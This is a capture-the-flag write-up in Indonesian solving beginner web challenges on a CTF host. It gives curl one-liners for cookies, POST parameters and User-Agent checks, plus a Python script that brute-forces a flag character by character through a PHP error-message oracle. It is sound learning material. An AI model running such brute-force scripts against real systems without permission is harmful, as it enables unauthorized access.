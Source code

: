 # WEBSITE EXPLOITATION

## Welcome To CTFR

ctrl+u / view-source, akan mendapatkan flagnya

## Substring JS

disediakan script substring

```javascript
var flag = "";
if (flag.substring(0, 4) == "CTFR") {
  if (flag.substring(2, 7) == "FR{s1") {
    if (flag.substring(5, 10) == "s1mpl") {
      if (flag.substring(9, 13) == "l3_j") {
        if (flag.substring(10, 13) == "3_j") {
          if (flag.substring(13, 18) == "4v45c") {
            if (flag.substring(18, 26) == "r1pt}") {
              console.log("Here is your flag: " + flag);
            }
          }
        }
      }
    }
  }
}
```

untuk mendapatkan flag tersebut menggunakan automation

```python
import requests
import re

r = requests.get('https://web.ctf.rasyidmf.com/chal2')
response = r.text

regex = r"flag\.substring\((.*), (.*)\) == \"(.*?)\""
matchAll = re.findall(regex, response)
flag = list('')

for match in matchAll:
    flag[int(match[0]):int(match[1])] = match[2]

print(''.join(flag))
```

## Cookie

disediakan website biasa, yang harus mendapatkan cookie website tersebut, ada 2 cara. <br>
Cara pertama menggunakan tools **Cookie Editor**
<br>
Cara kedua menggunakan command

```bash
curl --head -s https://web.ctf.rasyidmf.com/chal3/ | awk '/set-cookie: flag=/{print $2}' | sed 's/flag=//g' | python3 -c "import sys; from urllib.parse import unquote; print(unquote(sys.stdin.read()));" | sed 's/\;//g'
```

## Post Practice

harus request method post dan parameternya flag=1

```bash
curl -X POST --data "flag=1" -s https://web.ctf.rasyidmf.com/chal4/ | awk '/Flag :/{print $3}' | sed 's/<br>//g'
```

## User-Agent

website yang mengharuskan user-agentnya CTFR

```bash
 curl --header -s "User-Agent: CTFR" https://web.ctf.rasyidmf.com/chal5/ | awk '/Flag : /{print $3}'
```

## Brut3f0rc3 #1

disediakan input text yang untuk di bruteforce flagnya

Script phpnya:

```php
<?php
include 'flag.php';
    $input = @$_GET['flag'];
    if ($input != "" && strlen($input) == 36) {
        $res = "";
        for($i = 0; $i < 36; $i++) {
            if ($flag[$i] == $input[$i]) {
                $res .= $flag[$i];
            } else {
                echo "Karakter pada index <b>$i</b> : <b>$input[$i]</b> tidak sama dengan flag yang ada<br><br>";
                return;
            }
        }
        echo "Here is your flag : " . $flag . "<br><br>";
    }
?>
```

Script brutefocenya:

```python
import requests
import string
import re

def striphtml(data):
    p = re.compile(r'<.*?>')
    return p.sub('', data)

def generatePayload(index):
    lowerCase = string.ascii_lowercase
    number = string.digits
    simbol = "_"

    gabung = lowerCase + number + simbol
    arr = list(gabung)

    return arr[index]

def request(url, payload, indexError):
    regex = r"<b>(.*?)<\/b>"
    regexSuccess = r"Here is your flag : (.*)"

    r =  requests.get(url + payload)
    data = r.text
    getIndexError = re.findall(regex, data)
    getFlag = re.findall(regexSuccess, data)

    if len(getIndexError) > 0 and int(getIndexError[0]) == indexError:
        return True
    elif len(getFlag) > 0:
        return getFlag[0]
    else:
        return False

def exploit():
    url = "https://web.ctf.rasyidmf.com/chal16/?flag="
    payload = list("CTFR{" + 'a'*30 + "}")

    indexPayload = 0
    indexError = 5

    while True:
        payloadReq = ''.join(payload)
        requestPayload = request(url, payloadReq, indexError)

        if requestPayload:
            indexPayload = indexPayload + 1
            if indexPayload == 37:
                indexPayload = 0
        else:
            indexError = indexError + 1

        payload[indexError] = generatePayload(indexPayload)

        print(f"[~] Trying BruteForce : {payloadReq}", end="\r", flush=True)

        if type(requestPayload) == str:
            print(f"[+] Found Flag : {striphtml(requestPayload)}", end="\n", flush=True)
            break


if __name__ == '__main__':
    exploit()
```
